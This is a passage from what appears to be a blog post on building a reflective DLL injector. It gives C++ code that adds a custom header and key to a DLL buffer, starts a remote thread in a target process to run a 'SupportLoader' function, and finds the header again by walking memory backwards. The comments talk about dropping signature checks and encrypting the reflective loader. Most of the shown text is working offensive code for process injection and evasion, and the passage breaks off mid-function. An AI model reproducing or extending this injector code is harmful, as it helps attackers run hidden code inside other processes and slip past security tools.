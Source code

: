 ```cpp
char * addHeaderToBuffer(PBYTE dll, size_t dllSize, size_t funcSize) {

    //I create a new buffer big as the dll + header
    char* newDll = new char[dllSize + DLL_HEADER_SIZE];
    //i write the dll HEADER_SIZE bytes forward so that i have the space for the header
    memmove(newDll + DLL_HEADER_SIZE, dll, dllSize);
    //write the header bytes
    memcpy(newDll, HEADER, HEADER_SIZE);
    //write the key bytes
    memcpy(newDll + HEADER_SIZE, KEY, KEY_SIZE);
    //write the size of the reflectivefunction
    memcpy(newDll + HEADER_SIZE + KEY_SIZE, &funcSize, sizeof(SIZE_T));
    return newDll;
}
```

That’s pretty much it for the ReflectiveDLLInjector code news 🙂 

![https://media0.giphy.com/media/0EffMm7e0SHSCBxFzo/giphy.gif?cid=7941fdc6f9wdia6dok9ahejeqrlvqyqq1d276pddtn3yictn&ep=v1_gifs_search&rid=giphy.gif&ct=g](https://media0.giphy.com/media/0EffMm7e0SHSCBxFzo/giphy.gif?cid=7941fdc6f9wdia6dok9ahejeqrlvqyqq1d276pddtn3yictn&ep=v1_gifs_search&rid=giphy.gif&ct=g)

one little last thing, the idea now of course it’s to invoke the *SupportLoader* function instead of the *ReflectiveLoader* (which will be encrypted in the remote process). 

```cpp
hThread = CreateRemoteThread(hProc,NULL, 0, (LPTHREAD_START_ROUTINE)(remotePEBase + (DWORD)reflectiveSupportLoaderFunc + DLL_HEADER_SIZE), NULL, 0 , &threadId);
if (hThread == NULL) {
    cout << "[-] Error while running the remote thread, exiting ... \n";
}
else {
    printf("[+] Successufully ran thread with id: %lu\n", threadId);
}
```

### ReflectiveDLL

Let’s start from what’s the most important player of the YOLO loader, the SupportLoader function 😀 (most of the new lines are explained in the comments)

```cpp
EXTERN_DLL_EXPORT bool SupportLoader() {
    
    fnDllMain pDllMain = NULL;
    PBYTE pebase = NULL;
    PIMAGE_DOS_HEADER pImgDosHdr = NULL;
    PIMAGE_NT_HEADERS pImgNtHdrs = NULL;
    PDLL_HEADER pDllHeader = NULL;
    ULONG_PTR dllBaseAddress = NULL;
    dllBaseAddress = (ULONG_PTR)CrazyLoader;
   
    //walking backwards to find the Header which contains juicy informations
    while (TRUE)
    {
        pDllHeader = (PDLL_HEADER)dllBaseAddress;

        if (pDllHeader->header == 0x44434241) {
            //i can modify these checks, **so i will get rid of the signatures comparison**
            //thinking of some checksum checks, for **now** this
            pImgDosHdr = (PIMAGE_DOS_HEADER)(dllBaseAddress + (16 * sizeof(CHAR)));
            if (pImgDosHdr->e_magic == IMAGE_DOS_SIGNATURE)
            {
                pImgNtHdrs = (PIMAGE_NT_HEADERS)(dllBaseAddress + pImgDosHdr->e_lfanew + (16 * sizeof(CHAR)));

                if (pImgNtHdrs->Signature == IMAGE_NT_SIGNATURE) {
```